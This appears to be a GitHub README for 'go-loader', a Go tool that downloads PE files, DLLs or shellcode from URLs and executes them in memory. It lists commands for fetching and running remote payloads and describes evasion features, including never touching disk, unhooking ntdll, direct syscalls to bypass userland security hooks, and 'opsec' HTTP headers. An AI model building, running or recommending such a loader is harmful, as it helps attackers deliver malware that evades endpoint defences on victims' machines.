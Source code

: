 # go-loader

a pe/dll/shellcode loader that downloads and executes files from urls in memory

## usage
![demo](https://github.com/user-attachments/assets/9f45cf71-1578-4393-94d6-7cc5475870d3)


```bash
# execute pe file from url
go run main.go -pe -url https://example.com/calc.exe

# execute shellcode from url  
go run main.go -shellcode -url https://example.com/shellcode.bin

# execute dll from url with specific function
go run main.go -dll -url https://example.com/mydll.dll -func MyFunction

# build
go build -o loader.exe cmd/main.go
```

## technical details

this project implements full reflective loading of pe files, dlls, and shellcode directly from downloaded byte arrays in memory without ever touching disk. the core functionality includes complete pe parsing with dos/nt header validation, section mapping with proper memory permissions (rx for .text, rw for data), base relocation processing for aslr compatibility supporting both 32-bit (image_rel_based_highlow) and 64-bit (image_rel_based_dir64) relocations, and comprehensive import address table resolution including forwarded export handling that can parse "dll.function" and "dll.#ordinal" forwarder strings and resolve them across multiple dlls. the main technical challenge was go's absolutely evil garbage collector that would intermittently move or collect our downloaded buffers during pe/dll execution, causing status_invalid_handle (0xc0000008) errors and crashes. i solved this by implementing very aggressive anti-gc techniques: runtime.keepalive calls throughout execution, completely disabling gc during critical sections with debug.setgcpercent(-1), locking goroutines to os threads with runtime.lockosthread, forcing multiple gc runs before execution to clear memory, and creating dedicated pinned byte copies that stay alive throughout the entire loading process. for pe execution we allocate memory at the preferred base address when possible or use relocations when aslr forces us elsewhere, copy headers and sections correctly, fix imports and relocations, then execute via ntcreatethreadex. for dll loading we parse export tables to find functions by name or ordinal, handle complex import resolution, and can execute specific exported functions or the dll entry point. shellcode execution uses direct ntinjectselfshellcode for self-injection. the network downloader includes proper http headers for opsec and handles the downloaded data with gc-safe buffer management. all critical syscalls go through my go-native-syscall library's direct syscall stubs after unhooking ntdll and applying patches to bypass userland hooks, though i still had to use syscall.loadlibrary a few times for import resolution since you can't avoid loading dependencies and my ldrloaddll wrapper sucks sorry guys

## credits

- [@timwhitez/Doge-MemX](https://github.com/timwhitez/Doge-MemX) for pe loader code that i adapted
- [@scriptchildie/goDLLrefletiveloader](https://github.com/scriptchildie/goDLLrefletiveloader) for dll loading code that i fixed forwarded functions and some other small issues
